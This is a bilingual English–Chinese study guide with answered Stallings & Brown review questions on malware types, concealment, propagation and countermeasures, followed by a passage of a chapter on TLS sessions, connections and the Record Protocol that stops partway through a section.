E3. (Review Question 6.3, Stallings & Brown) What characteristics of an advanced persistent threat give it that name?E3.（复习题 6.3，Stallings & Brown）高级持续性威胁具有哪些特点，使它得此名称？
Answer
- Advanced: the attackers combine many attack methods and tools, often custom-made, including zero-day exploits.高级：攻击者组合使用多种攻击方法和工具，这些工具往往是定制的，包括零日漏洞利用。
- Persistent: the attack is carried out over a long period, slowly and stealthily to avoid detection, with continuing effort until the goal is reached.持续：攻击在很长时间内进行，缓慢而隐蔽以避免被发现，持续投入努力，直到达成目标。
- Threat: it is a real danger because it is directed by skilled, well-resourced and determined attackers (often state-backed or organized crime) against chosen targets, not random victims.威胁：它是真正的危险，因为它由技术熟练、资源充足且意志坚定的攻击者（通常有国家背景或为有组织犯罪）针对选定的目标发起，而不是针对随机的受害者。
思路：高级（多手段）、持续（长期隐蔽）、威胁（有组织的定向攻击）。
E4. (Review Question 6.4, Stallings & Brown) What are typical phases of operation of a virus or worm?E4.（复习题 6.4，Stallings & Brown）病毒或蠕虫通常经历哪些运行阶段？
Answer
- Dormant phase: the virus is idle and waits for an event (a date, a program, enough disk space); not all viruses have this phase.潜伏阶段：病毒处于空闲状态，等待某个事件（某个日期、某个程序、足够的磁盘空间）；并非所有病毒都有这一阶段。
- Propagation phase: it places a copy of itself in other programs or system areas (a worm sends copies to other hosts).传播阶段：病毒把自己的副本放入其他程序或系统区域（蠕虫则把副本发送到其他主机）。
- Triggering phase: an event activates the payload; the event can be a date, a count of copies or a system condition.触发阶段：某个事件激活载荷；该事件可以是某个日期、副本的数量，或某种系统条件。
- Execution phase: the payload runs, from a harmless message to the destruction of data.执行阶段：载荷运行，可以是无害的消息，也可以是数据的销毁。
思路：潜伏、传播、触发、执行四阶段。
E5. (Review Question 6.5, Stallings & Brown) What mechanisms can a virus use to conceal itself?E5.（复习题 6.5，Stallings & Brown）病毒可以用哪些机制来隐藏自己？
Answer
- Encrypted virus: a random key encrypts the body; a small decryptor decrypts it at run time, so the body has no fixed signature.加密型病毒：一个随机密钥加密病毒主体；一个小型解密器在运行时将其解密，因此主体没有固定的特征码。
- Stealth virus: it hides itself from detection, for example by intercepting disk reads to show the original file or by compressing the infected file so that its size is unchanged.隐蔽型病毒：它隐藏自己不被检测到，例如拦截磁盘读取以显示原始文件，或者压缩被感染的文件，使其大小保持不变。
- Polymorphic virus: it mutates with every infection (the decryptor and the encryption change), so no fixed signature exists, although the underlying code stays the same.多态型病毒：它在每次感染时都会变异（解密器和加密方式都会改变），因此不存在固定的特征码，尽管底层代码保持不变。
- Metamorphic virus: it rewrites its whole body at each infection, with changed behaviour and appearance, making signature detection even harder.变形型病毒：它在每次感染时都重写整个主体，行为和外观都会改变，使特征码检测更加困难。
思路：加密、隐身、多态、变形四种隐藏机制。
E6. (Review Question 6.6, Stallings & Brown) What is the difference between machine executable and macro viruses?E6.（复习题 6.6，Stallings & Brown）机器可执行病毒和宏病毒有什么区别？
Answer
A machine-executable virus infects binary programs and is written in machine code for one processor and operating system, so it works only on that platform. A macro (scripting) virus is written in the macro or scripting language embedded in a document, such as a Word or Excel file, and runs when the document is opened. It is platform independent (any system with the application), infects documents (data) rather than executables, and is easy to write and modify. Macro viruses spread easily because documents are shared by e-mail and users do not regard them as executable code.机器可执行病毒感染二进制程序，它用某一处理器和操作系统的机器码编写，因此只能在该平台上运行。宏（脚本）病毒用嵌入在文档（例如 Word 或 Excel 文件）中的宏语言或脚本语言编写，在文档打开时运行。它与平台无关（任何装有该应用程序的系统都能运行），感染的是文档（数据）而不是可执行文件，并且容易编写和修改。宏病毒很容易传播，因为文档经常通过电子邮件共享，而用户不会把它们当作可执行代码。
思路：二进制程序感染依赖平台，宏病毒感染文档并跨平台。
E7. (Review Question 6.7, Stallings & Brown) What means can a worm use to access remote systems to propagate?E7.（复习题 6.7，Stallings & Brown）蠕虫可以借助哪些手段访问远程系统以进行传播？
Answer
- E-mail or instant messaging: it mails a copy of itself, or a link to it, to other users.电子邮件或即时消息：它把自己的副本或指向副本的链接发送给其他用户。
- File sharing: it copies itself to shared media or network shares, for example a USB stick or network drives.文件共享：它把自己复制到共享介质或网络共享中，例如 U 盘或网络驱动器。
- Remote execution: it runs a copy on another machine through an exploited service or remote execution facility.远程执行：它通过被利用的服务或远程执行设施，在另一台机器上运行一个副本。
- Remote file access or transfer: it uses a file-transfer service to copy itself to the remote system.远程文件访问或传输：它利用文件传输服务把自己复制到远程系统。
- Remote login: it logs in as a user (for example with guessed passwords) and copies itself over.远程登录：它以某个用户身份登录（例如使用猜测的口令），并把自己复制过去。
思路：邮件、文件共享、远程执行、远程文件访问、远程登录。
E8. (Review Question 6.8, Stallings & Brown) What is a "drive-by-download" and how does it differ from a worm?E8.（复习题 6.8，Stallings & Brown）什么是“路过式下载”，它与蠕虫有何不同？
Answer
A drive-by download exploits a vulnerability in a browser (or plug-in) so that malware is downloaded and installed when a user merely visits a compromised or malicious web page, without the user's knowledge or consent. A worm is self-replicating: it actively searches for other vulnerable hosts and copies itself to them without user action. A drive-by download does not replicate or seek targets: it waits for victims to visit the page. It is a way to infect many users from one site, but it does not spread from machine to machine by itself.路过式下载利用浏览器（或插件）中的漏洞，只要用户访问了被攻陷或恶意的网页，恶意软件就会在用户不知情、未同意的情况下被下载并安装。蠕虫会自我复制：它主动寻找其他有漏洞的主机，并在无需用户操作的情况下把自己复制过去。路过式下载既不复制自己，也不寻找目标：它只是等待受害者访问该网页。它是一种从单个网站感染众多用户的方式，但它本身不会从一台机器传播到另一台机器。
思路：路过下载被动等访问者，蠕虫自己找目标并复制。
E9. (Review Question 6.9, Stallings & Brown) How does a Trojan enable malware to propagate? How common are Trojans on computer systems? Or on mobile platforms?E9.（复习题 6.9，Stallings & Brown）特洛伊木马如何使恶意软件得以传播？特洛伊木马在计算机系统上有多常见？在移动平台上呢？
Answer
A Trojan horse is a useful or attractive program (a game, a codec, a cracked tool) that contains hidden malicious code. It does not replicate; it propagates because users are persuaded to download and run it, and so they install the malicious payload themselves, which then may install a backdoor, bot or spyware. Trojans are among the most common forms of malware on desktop systems, spread by e-mail attachments, bundled software and malicious web sites. On mobile platforms they are especially common in the form of malicious apps, often in third-party app stores and repackaged versions of popular apps that request excessive permissions.特洛伊木马是一种有用或有吸引力的程序（例如游戏、编解码器、破解工具），其中包含隐藏的恶意代码。它不会自我复制；它之所以能传播，是因为用户被说服下载并运行它，于是用户亲手安装了恶意载荷，而该载荷随后可能安装后门、僵尸程序或间谍软件。在桌面系统上，特洛伊木马是最常见的恶意软件形式之一，通过电子邮件附件、捆绑软件和恶意网站传播。在移动平台上，它们尤其常见，以恶意应用的形式出现，这些应用往往来自第三方应用商店，或者是申请了过多权限的热门应用的重新打包版本。
思路：木马靠用户自己安装，不自我复制；在桌面和手机上都很常见。
E10. (Review Question 6.10, Stallings & Brown) What is a "logic bomb"?E10.（复习题 6.10，Stallings & Brown）什么是“逻辑炸弹”？
Answer
A logic bomb is code embedded in a legitimate program that stays dormant until a predefined condition is met, for example a date, the presence or absence of a file, or a particular user running the program. When the condition holds, it "explodes" and carries out a harmful action such as deleting files or crashing the system. It is typically planted by an insider (for example a disgruntled employee who is dismissed, so that his name is missing from the payroll).逻辑炸弹是嵌入在合法程序中的代码，它平时潜伏，直到预定条件满足为止，例如某个日期、某个文件存在或不存在，或某个特定用户运行该程序。条件成立时，它就“爆炸”，执行删除文件或使系统崩溃之类的有害动作。它通常由内部人员埋下，例如一名心怀不满、被解雇的员工（其名字从工资名单上消失时触发）。
思路：藏在正常程序里、满足条件才触发的破坏代码。
E11. (Review Question 6.11, Stallings & Brown) What is the difference between a backdoor, a bot, a keylogger, spyware, and a rootkit? Can they all be present in the same malware?E11.（复习题 6.11，Stallings & Brown）后门、僵尸程序、键盘记录器、间谍软件和 rootkit 之间有什么区别？它们能同时出现在同一个恶意软件中吗？
Answer
| Term术语 | Meaning含义 |
|---|---|
| Backdoor (trapdoor)后门（陷门） | A secret entry point that gives access without the normal authentication.一个秘密入口，无需正常的身份验证即可获得访问权限。 |
| Bot (zombie)僵尸程序（僵尸主机） | A program that takes over a host and lets an attacker control it remotely, as part of a botnet.一个接管主机、让攻击者远程控制该主机的程序，它是僵尸网络的一部分。 |
| Keylogger键盘记录器 | Captures keystrokes to steal passwords and other typed data.捕获击键，以窃取口令和其他输入的数据。 |
| Spyware间谍软件 | Monitors the user's activity (browsing, screen, data) and sends it to the attacker.监视用户的活动（浏览、屏幕、数据），并把这些信息发送给攻击者。 |
| Rootkitrootkit | A set of programs that gives continued privileged access while hiding its presence.一组程序，在隐藏自身存在的同时保持持续的特权访问。 |
Yes, they can all be present in the same malware. A typical package uses a rootkit to hide itself, a backdoor and a bot for remote control, and a keylogger and spyware to collect data.能，它们可以同时出现在同一个恶意软件中。一个典型的组合是：用 rootkit 隐藏自身，用后门和僵尸程序进行远程控制，用键盘记录器和间谍软件收集数据。
思路：功能不同，但常组合在同一恶意软件中。
E12. (Review Question 6.12, Stallings & Brown) What is the difference between a "phishing" attack and a "spear-phishing" attack, particularly in terms of who the target may be?E12.（复习题 6.12，Stallings & Brown）“网络钓鱼”攻击与“鱼叉式网络钓鱼”攻击有什么区别？尤其是在目标可能是谁这一点上。
Answer
Phishing exploits social engineering by sending messages that look like they come from a trusted source (a bank, a service), to a large, untargeted population, so as to get credentials or to make users install malware. Spear phishing is a targeted form: the message is customized for one person or a small group, using personal or organizational information (name, role, current project, apparent sender is a colleague) so that it is credible. It is much more likely to succeed and is a common start of APT intrusions.网络钓鱼利用社会工程，向大量没有特定目标的人群发送看似来自可信来源（如银行、某项服务）的消息，以获取凭证或诱使用户安装恶意软件。鱼叉式网络钓鱼是有针对性的形式：邮件针对一个人或一小群人量身定制，利用个人或组织信息（姓名、职务、当前项目，发件人看似是同事），使其显得可信。它成功的可能性大得多，而且往往是 APT 入侵的常见开端。
思路：钓鱼面向大众；鱼叉式钓鱼针对特定个人或组织，内容定制。
E13. (Review Question 6.13, Stallings & Brown) List some of the different levels in a system that a rootkit may use.E13.（复习题 6.13，Stallings & Brown）列举 rootkit 可能利用的系统中的一些不同层级。
Answer
- Application level: it replaces or patches user programs (for example
ls,ps).应用层：它替换或修补用户程序（例如ls、ps）。 - Library level: it patches system libraries or intercepts calls, so that programs get falsified results.库层：它修补系统库或拦截调用，使程序得到伪造的结果。
- Kernel level: it modifies the kernel (system call table, drivers), which is the most powerful and the most dangerous.内核层：它修改内核（系统调用表、驱动程序），这是最强大也最危险的一层。
- Virtual machine / hypervisor level: it runs below the operating system and makes it a guest.虚拟机/虚拟机监控器层：它运行在操作系统之下，并把操作系统变成客户机。
- Boot loader level (and firmware): it replaces the boot loader, or persists in BIOS/firmware, to load before the operating system.引导加载程序层（以及固件）：它替换引导加载程序，或者驻留在 BIOS/固件中，从而在操作系统之前加载。
思路：从应用、库、内核到虚拟机、引导程序，越低越难检测。
E14. (Review Question 6.14, Stallings & Brown) Describe some malware countermeasure elements.E14.（复习题 6.14，Stallings & Brown）描述一些恶意软件对策的要素。
Answer
The ideal is prevention: policy, user awareness training, patching of vulnerabilities and least privilege so that malware cannot get in or execute. If prevention fails, technical measures give three steps:理想的做法是预防：制定策略、开展用户安全意识培训、修补漏洞，以及最小权限原则，使恶意软件无法进入或执行。如果预防失败，技术措施包括三个步骤：
- Detection: determine that an infection has occurred and find where.检测：确定已经发生感染，并找出位置。
- Identification: determine the specific malware.识别：确定具体是哪一种恶意软件。
- Removal: remove all traces, restoring the system to its original state; if this is not possible, delete the files and rebuild from a clean backup.清除：清除所有痕迹，把系统恢复到原始状态；如果做不到，就删除文件，并从干净的备份重新搭建。
Tools used include anti-virus scanners, behaviour blockers, sandbox analysis, firewalls and intrusion detection.所用的工具包括杀毒扫描器、行为拦截器、沙箱分析、防火墙和入侵检测。
思路：预防优先，失败则检测、识别、清除。
E15. (Review Question 6.15, Stallings & Brown) List three places malware mitigation mechanisms may be located.E15.（复习题 6.15，Stallings & Brown）列出恶意软件缓解机制可能部署的三个位置。
Answer
- On the host: anti-virus and anti-malware software, a personal firewall and behaviour-blocking software on the individual machine; they see the full context of what runs.在主机上：单台机器上的杀毒和反恶意软件程序、个人防火墙以及行为拦截软件；它们能看到运行中程序的完整上下文。
- On the network perimeter: firewalls, intrusion detection or prevention systems, and mail or web filters at the gateway, which protect all hosts behind them and see network traffic.在网络边界上：网关处的防火墙、入侵检测或防御系统，以及邮件或 Web 过滤器；它们保护其后的所有主机，并能看到网络流量。
- Distributed (across several places): sensors and honeypots at many points, such as hosts, perimeter devices and ISPs, sending data to a central analysis system, which finds outbreaks more quickly and coordinates the response.分布式（分布在多个位置）：在许多位置部署传感器和蜜罐，例如主机、边界设备和互联网服务提供商（ISP），它们把数据发送到中央分析系统，由该系统更快地发现爆发情况并协调响应。
思路：主机、网络边界、分布式三处。
E16. (Review Question 6.16, Stallings & Brown) Briefly describe the four generations of anti-virus software.E16.（复习题 6.16，Stallings & Brown）简要描述四代杀毒软件。
Answer
- First generation, simple scanners: they look for known signatures (a bit pattern) in files, or check for changes in file length.第一代，简单扫描器：它们在文件中查找已知的特征码（一种位模式），或者检查文件长度是否发生变化。
- Second generation, heuristic scanners: they look for code fragments typical of viruses, or use integrity checks (a checksum or hash of each file) that reveal modification.第二代，启发式扫描器：它们查找病毒典型的代码片段，或使用完整性检查（对每个文件计算校验和或哈希），从而发现文件被修改。
- Third generation, activity traps: they are memory-resident and identify a virus by its actions (suspicious behaviour) rather than its structure.第三代，活动陷阱：它们常驻内存，通过病毒的行为（可疑行为）而不是其结构来识别病毒。
- Fourth generation, full-featured protection: a package combining several techniques (scanners, activity traps) with access control to limit the ability of viruses to penetrate and to update files.第四代，全功能防护：一个组合多种技术（扫描器、活动陷阱）与访问控制的软件包，用于限制病毒侵入和更新文件的能力。
思路：特征扫描、启发式、行为陷阱、综合防护。
E17. (Problem 6.2, Stallings & Brown) Suppose a program \(D\) could decide, for any program \(P\), whether \(P\) is a virus: \(D(P)\) returns TRUE if \(P\) is a virus and FALSE if not. Consider the program CV whose main part is: "if \(D(\text{CV})\) then goto next, else infect-executable", with the label next at the end. Here infect-executable scans memory for executable programs and replicates CV into them. Determine whether \(D\) can correctly decide whether CV is a virus.E17.（习题 6.2，Stallings & Brown）假设有一个程序 \(D\)，对于任意程序 \(P\)，它都能判断 \(P\) 是否为病毒：如果 \(P\) 是病毒，\(D(P)\) 返回 TRUE，否则返回 FALSE。考虑程序 CV，其主体为：“如果 \(D(\text{CV})\) 则 goto next，否则 infect-executable”，末尾有标签 next。这里 infect-executable 扫描内存中的可执行程序，并把 CV 复制进去。判断 \(D\) 能否正确判断 CV 是否为病毒。
Answer
Check both possible answers of \(D\) on CV (a proof by contradiction, as for the halting problem).对 CV 检验 \(D\) 的两种可能答案（这是一个反证法，与停机问题的证明相同）。
- If \(D(\text{CV})\) = TRUE: CV takes the branch to next and ends without infecting anything. It does not replicate, so it is not a virus, and \(D\) was wrong.若 \(D(\text{CV})\) = TRUE：CV 转到 next 分支，结束，不感染任何东西。它不复制自己，因此它不是病毒，\(D\) 的判定就错了。
- If \(D(\text{CV})\) = FALSE: CV executes infect-executable and replicates, so it is a virus, and \(D\) was wrong again.若 \(D(\text{CV})\) = FALSE：CV 执行 infect-executable 并复制自己，因此它是病毒，\(D\) 的判定又一次错了。
Whatever \(D\) answers, the answer is incorrect. Hence no program \(D\) can decide correctly for every program, and a perfect virus detector cannot exist. This is why practical detection uses signatures, heuristics and behaviour analysis that sometimes give false positives or negatives, and why virus detection remains an arms race.无论 \(D\) 怎样回答，它的回答都是错的。因此，没有任何程序 \(D\) 能对所有程序都正确判定，完美的病毒检测器不可能存在。这就是为什么实际的检测要使用特征码、启发式和行为分析，而它们有时会产生误报或漏报，也是为什么病毒检测始终是一场军备竞赛。
思路：CV 总是做与 D 的判断相反的事，所以通用病毒判定器不存在（类似停机问题）。
E18. (Problem 6.3, Stallings & Brown) The original virus code is mov eax, 5; add eax, ebx; call [eax]. A metamorphic version is mov eax, 5; push ecx; pop ecx; add eax, ebx; swap eax, ebx; swap ebx, eax; call [eax]; nop. Describe the effect produced by the metamorphic code.E18.（习题 6.3，Stallings & Brown）原始病毒代码为 mov eax, 5; add eax, ebx; call [eax]。一个变形版本为 mov eax, 5; push ecx; pop ecx; add eax, ebx; swap eax, ebx; swap ebx, eax; call [eax]; nop。描述变形代码产生的效果。
Answer
Examine the extra instructions one by one.逐条检查额外的指令。
push ecxfollowed bypop ecxpushesecxon the stack and takes it back, soecxand the stack are unchanged.push ecx后面紧跟pop ecx，它把ecx压入栈中，再取回来，因此ecx和栈都没有改变。swap eax, ebxexchanges the two registers, andswap ebx, eaxexchanges them back, so the registers hold the same values as before the pair.swap eax, ebx交换两个寄存器的内容，swap ebx, eax再把它们交换回来，因此这对指令之后，寄存器中的值与之前相同。nopdoes nothing.nop什么也不做。
So the added instructions have no net effect: after add eax, ebx the value of eax is \(5 + ebx\) in both versions, and the same indirect call is made. The functionality is identical, but the byte sequence is different. This is the mechanism of a metamorphic virus: it inserts "junk" instructions and equivalent instruction sequences (dead code) at each infection so that no two copies have the same signature, which defeats signature-based scanners.因此，这些新增指令没有净效果：在 add eax, ebx 之后，两个版本中 eax 的值都是 \(5 + ebx\)，并且进行的是同一个间接调用。功能完全相同，但字节序列不同。这就是变形病毒的机制：每次感染时它都插入“垃圾”指令和等价的指令序列（死代码），使任何两个副本都没有相同的特征码，从而使基于特征码的扫描器失效。
思路：多出的指令成对抵消，行为不变但字节不同，用来躲避特征码。
E19. (Problem 6.14, Stallings & Brown) List the types of attacks on a personal computer that a (host-based) personal firewall and anti-virus software can help you protect against. Which of these countermeasures would help block the spread of macro viruses spread using e-mail attachments? Which would block the use of backdoors on the system?E19.（习题 6.14，Stallings & Brown）列出个人防火墙（基于主机）和杀毒软件可以帮助你防范的个人计算机攻击类型。这些对策中，哪些有助于阻止通过电子邮件附件传播的宏病毒扩散？哪些能阻止系统后门被利用？
Answer
Personal firewall. It filters incoming and outgoing connections by rule, so it helps against: network worms that exploit listening services, port scans and probing, unauthorized inbound connections, and malware (bots, spyware) that calls out to its controller on a blocked port or from a program that is not allowed to connect.个人防火墙。它按规则过滤进出的连接，因此可以防范：利用监听服务的网络蠕虫、端口扫描和探测、未经授权的入站连接，以及在被阻止的端口上或从不允许联网的程序中回连控制者的恶意软件（僵尸程序、间谍软件）。
Anti-virus. It scans files, e-mail attachments and downloads, and watches behaviour. It helps against: viruses (including macro viruses), worms, Trojans, spyware, keyloggers, bots, rootkits and downloaded malware.杀毒软件。它扫描文件、电子邮件附件和下载内容，并监视行为。它可以防范：病毒（包括宏病毒）、蠕虫、特洛伊木马、间谍软件、键盘记录器、僵尸程序、rootkit 和下载的恶意软件。
Macro viruses in e-mail attachments. Anti-virus software helps: it scans the attachment or the document when it is opened and recognizes the macro virus. A firewall does not help, because the attachment arrives through normal, allowed mail traffic.电子邮件附件中的宏病毒。杀毒软件有帮助：它在附件或文档被打开时进行扫描，并识别出宏病毒。防火墙没有帮助，因为附件是通过正常、被允许的邮件流量到达的。
Backdoors. Both help. A firewall blocks the inbound connection to the backdoor's port (and blocks its outbound calls), and anti-virus software detects the backdoor program on disk or in memory and removes it. The firewall is the more direct block of its use; a backdoor over an allowed port or an outbound connection needs the anti-virus.后门。两者都有帮助。防火墙阻断通往后门端口的入站连接（同时阻断其外发的回连），杀毒软件则检测磁盘或内存中的后门程序并将其删除。防火墙更直接地阻止后门被利用；而通过允许的端口或外发连接工作的后门，则需要依靠杀毒软件。
思路：防火墙管连接，杀毒管文件；宏病毒靠杀毒，后门两者都有帮助。
Chapter 19Transport-Level Security: SSL/TLS, HTTPS and SSH传输层安全：SSL/TLS、HTTPS 与 SSHReading: Stallings (Crypto) Ch. 17; Stallings & Brown 22.3–22.4
Web Security and TLS Architecture ★★★Web 安全与 TLS 体系结构
Goal. Define a TLS session and a TLS connection, list the state that each holds, and say at which level of the protocol stack TLS works and which threats it does and does not counter.目标。 定义 TLS 会话和 TLS 连接，列出各自保存的状态，说明 TLS 在协议栈的哪一层工作，以及它能防御哪些威胁、不能防御哪些威胁。
Step 1: threats and the level of protection第 1 步：威胁与保护层次
In words: TLS protects the traffic on the wire; it does not protect the server or the browser themselves.用文字表述：TLS 保护线路上的流量；它不保护服务器或浏览器本身
Web threats are passive (eavesdropping) or active (impersonation, altering traffic or site content). They sit in the server, in the browser or in the network traffic. Flaws in servers and browsers are system security (Chapters 14 to 18). TLS protects the traffic.Web 威胁分为被动（窃听）和主动（冒充、篡改流量或网站内容）。它们可能位于服务器、浏览器或网络流量中。服务器和浏览器的缺陷属于系统安全（第 14 至 18 章）。TLS 保护的是流量。
| Threat威胁 | Examples示例 | Countermeasure对策 |
|---|---|---|
| Integrity完整性 | modified user data, memory or messages in transit用户数据、内存或传输中的消息被篡改 | cryptographic checksums密码学校验和 |
| Confidentiality机密性 | eavesdropping, theft of server or client data窃听，窃取服务器或客户端数据 | encryption, Web proxies加密，Web 代理 |
| Denial of service拒绝服务 | bogus-request floods, filling disk or memory伪造请求洪泛，耗尽磁盘或内存 | difficult to prevent难以预防 |
| Authentication认证 | impersonating users, forged data冒充用户，伪造数据 | cryptographic techniques密码技术 |
Security can be placed at three levels of the TCP/IP stack.安全机制可以放在 TCP/IP 协议栈的三个层次上。
| Level等级 | Example示例 | Advantage优点 |
|---|---|---|
| Network网络层 | IPsec (Chapter 20)IPsec（第 20 章） | transparent to users and applications; general purpose; filtering limits the overhead to selected traffic对用户和应用程序透明；通用；通过过滤可将开销限制在选定的流量上 |
| Transport传输层 | SSL/TLS just above TCP位于 TCP 之上的 SSL/TLS | general purpose; built into the protocol suite (transparent) or into packages such as browsers and servers通用；内置于协议族中（透明），或内置于浏览器和服务器等软件包中 |
| Application应用层 | S/MIME, KerberosS/MIME、Kerberos | tailored to the needs of one application针对某一应用的需求量身定制 |
Step 2: the TLS architecture第 2 步：TLS 的体系结构
In words: TLS = one Record Protocol that protects the data, plus four protocols above it that manage it.用文字表述：TLS = 一个保护数据的记录协议，加上它上面的四个管理协议
Transport Layer Security (TLS)（传输层安全）is the Internet standard that evolved from the commercial Secure Sockets Layer (SSL). SSL is deprecated. TLS uses TCP for reliable end-to-end delivery. It has two layers of protocols.传输层安全（TLS）是从商业化的安全套接字层（SSL）演化而来的因特网标准。SSL 已被弃用。TLS 使用 TCP 提供可靠的端到端传输，并由两层协议组成。

The Record Protocol（记录协议）gives confidentiality and integrity to the protocols above it. These are Handshake, Change Cipher Spec and Alert, which manage TLS, then Heartbeat (Section 19.4), and application protocols such as HTTP.记录协议为其上的协议提供机密性和完整性。这些协议包括：管理 TLS 的握手协议、密码规格变更协议和警报协议，然后是心跳协议（第 19.4 节），以及 HTTP 等应用协议。
Step 3: session and connection第 3 步：会话与连接
In words: a session = the long-lived agreement; a connection = one short conversation that uses that agreement.用文字表述：会话 = 长期有效的协商；连接 = 使用该协商的一次短暂对话
- A connection（连接）is a transient peer-to-peer transport. Each connection belongs to exactly one session.连接是一条短暂的点对点传输通道。每条连接只属于一个会话。
- A session（会话）is an association between client and server, created by the Handshake Protocol. It fixes security parameters that many connections share, so they need not be renegotiated.会话是客户端和服务器之间的一种关联，由握手协议建立。它确定许多连接共享的安全参数，因此无需重新协商。
Example: a browser opens six connections to one shop to load images in parallel. Only the first needs the expensive public-key handshake. The other five resume the same session.例如，浏览器为了并行加载图片，与同一家店铺打开了六条连接。只有第一条需要昂贵的公钥握手，其余五条则恢复同一个会话。
Each session has current read and write states. A handshake builds pending states that become current when it ends.每个会话都有当前的读状态和写状态。握手会建立待定状态，握手结束后它们变为当前状态。
| Session state会话状态 | Meaning含义 |
|---|---|
| Session identifier会话标识符 | server-chosen name of an active or resumable session由服务器选定的、活动或可恢复会话的名称 |
| Peer certificate对端证书 | X.509v3 certificate of the peer对端的 X.509v3 证书 |
| Compression method压缩方法 | applied before encryption在加密之前应用 |
| Cipher spec密码规格 | bulk cipher, MAC hash, hash size批量加密算法、MAC 哈希算法、哈希长度 |
| Master secret主密钥 | 48 bytes shared by client and server客户端与服务器共享的 48 字节 |
| Is resumable是否可恢复 | may start new connections可用于建立新连接 |
| Connection state连接状态 | Meaning含义 |
|---|---|
| Server and client random服务器与客户端随机数 | nonces chosen for this connection为本连接选定的一次性随机数 |
| Server and client write MAC secret服务器与客户端写 MAC 密钥 | MAC keys for data sent by each side各方发送数据所用的 MAC 密钥 |
| Server and client write key服务器与客户端写密钥 | encryption keys for data sent by each side各方发送数据所用的加密密钥 |
| Initialization vectors初始向量 | one CBC IV per key: set by the handshake, then the last ciphertext block of the previous record每个密钥对应一个 CBC IV：由握手设定，此后为前一条记录的最后一个密文分组 |
| Sequence numbers序列号 | separate counters for sent and received messages; zeroed at change_cipher_spec; at most \(2^{64}-1\)分别用于发送和接收消息的计数器；在 change_cipher_spec 时清零；最大为 \(2^{64}-1\) |
Resuming works like this. The client sends the old session ID in client_hello. The new connection takes the stored master secret and mixes it with fresh randoms. So there is one master secret and one new key block for every connection.恢复会话的过程如下。客户端在 client_hello 中发送旧的会话 ID。新连接取出保存的主密钥，并与新的随机数混合。因此，每条连接对应一个主密钥和一个新的密钥块。
Practice练习
Q1. (Concepts) Define a TLS session and a TLS connection. A browser opens three connections to one server within one session. How many master secrets and how many key blocks are involved, and why do the key blocks differ?Q1.（概念）定义 TLS 会话和 TLS 连接。一个浏览器在同一个会话内与一台服务器打开三个连接。涉及多少个主密钥和多少个密钥块？为什么各密钥块不同？
Answer
A session is an association between a client and a server created by the Handshake Protocol; it fixes the session ID, peer certificate, compression method, cipher spec, master secret and resumable flag, and can be shared by several connections. A connection is a transient transport belonging to exactly one session, with its own randoms, MAC secrets, write keys, IVs and sequence numbers.会话是由握手协议建立的客户端与服务器之间的关联；它固定了会话 ID、对端证书、压缩方法、密码规格、主密钥以及可恢复标志，并可由多个连接共享。连接则是恰好属于一个会话的短暂传输，拥有各自的随机数、MAC 密钥、写密钥、IV 和序列号。
There is one master secret (a session property) and three key blocks. Each connection computes \(\mathrm{PRF}(\text{master\_secret},\text{"key expansion"},\text{server\_random}\,\Vert\,\text{client\_random})\) with fresh randoms, so the keys differ although the master secret is reused. This avoids a public-key negotiation per connection without ever reusing keys.只有一个主密钥（会话属性）和三个密钥块。每个连接都用新的随机数计算 \(\mathrm{PRF}(\text{master\_secret},\text{"key expansion"},\text{server\_random}\,\Vert\,\text{client\_random})\)，因此尽管主密钥被重复使用，密钥仍各不相同。这样既避免了每个连接都进行一次公钥协商，又从不重复使用密钥。
Q2. (True or false) "Since TLS encrypts all traffic between browser and server, it also protects the server against SYN flooding and against an attacker who has compromised the server." Justify.Q2.（判断）“既然 TLS 加密了浏览器与服务器之间的全部流量，它也就能保护服务器免受 SYN 洪泛攻击，以及免受已攻陷服务器的攻击者的威胁。”判断该说法是否正确，并说明理由。
Answer
False. TLS protects the traffic only: confidentiality, integrity and authentication of data in transit. A SYN flood hits TCP connection set-up, which happens before any TLS processing, so TLS cannot stop it (denial of service is "difficult to prevent"). A compromised server is a system-security problem (Chapters 14–18): the attacker sees the data after TLS has decrypted it.错误。TLS 只保护流量，即传输中数据的机密性、完整性和认证。SYN 洪泛攻击针对的是 TCP 连接的建立，这一步发生在任何 TLS 处理之前，因此 TLS 无法阻止它（拒绝服务“难以预防”）。服务器被攻陷属于系统安全问题（第 14–18 章）：TLS 解密数据之后，攻击者即可看到这些数据。
易错：TLS 只保护传输中的数据，不保护端点本身。
TLS Record, Change Cipher Spec and Alert Protocols ★★★TLS 记录协议、密码规格变更协议与警报协议
Goal. List the five steps of the Record Protocol, say what the MAC covers, compute padding and record size, and describe the Change Cipher Spec and Alert protocols.目标。 列出记录协议的五个步骤，说明 MAC 覆盖哪些内容，计算填充和记录大小，并描述密码规格变更协议和警报协议。
Step 1: the five steps第 1 步：五个步骤
In words: the Record Protocol cuts the data into pieces, tags each piece with a MAC, encrypts it, and puts a five-byte header in front.用文字表述：记录协议把数据切成片段，给每片加 MAC，加密，再在前面加一个五字节的首部
The Record Protocol offers confidentiality, by symmetric encryption under a key from the Handshake Protocol. It offers message integrity, by a MAC under a second shared key. It processes each outgoing message in five steps.记录协议提供两项服务。机密性：用握手协议生成的密钥进行对称加密。消息完整性：用第二个共享密钥计算 MAC。它对每条待发送的消息按五个步骤处理。

- Fragment the message into blocks of at most \(2^{14}=16{,}384\) bytes.将消息分片为不超过 \(2^{14}=16{,}384\) 字节的块。
- Compress (optional, lossless, may add at most 1,024 bytes). TLS 1.2 specifies no algorithm, so the default is null. TLS 1.3 removes compression.压缩（可选，无损，最多可增加 1,024 字节）。TLS 1.2 没有规定具体算法，因此默认为空。TLS 1.3 取消了压缩。
- Add a MAC over the (compressed) fragment.对（压缩后的）分片计算并添加 MAC。
- Encrypt fragment plus MAC with a block cipher (AES-128/256, 3DES) or a stream cipher (RC4-128). Growth is at most 1,024 bytes, so a record holds at most \(2^{14}+2048=18{,}432\) bytes.用分组密码（AES-128/256、3DES）或流密码（RC4-128）对分片及 MAC 进行加密。增长部分至多 1,024 字节，因此一条记录至多容纳 \(2^{14}+2048=18{,}432\) 字节。
- Prepend the header and send the result in a TCP segment. The receiver decrypts, verifies, decompresses and reassembles.添加首部，并将结果放入 TCP 报文段中发送。接收方依次进行解密、验证、解压缩和重组。
Step 2: the MAC and the sequence number第 2 步：MAC 与序号
In words: the MAC covers the data and also its position in the stream, so replayed, deleted or reordered records fail.用文字表述：MAC 既覆盖数据，也覆盖数据在流中的位置，因此被重放、删除或重排的记录都会校验失败
